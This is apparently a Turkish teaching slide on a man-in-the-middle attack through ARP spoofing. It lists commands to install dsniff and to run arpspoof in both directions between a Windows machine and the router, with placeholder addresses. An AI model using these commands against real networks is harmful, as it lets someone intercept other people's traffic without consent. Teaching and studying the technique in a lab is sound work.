

# ARP Spoof ile Man In The Middle Saldırısı
sudo apt-get install dsniff  (Do you want to continue? [Y/n] sorabilir Y girerek devam edin.)
sudo arpspoof -i eth0 -t  WindowsIP ModemIP
sudo arpspoof -i eth0 -t ModemIP  WindowsIP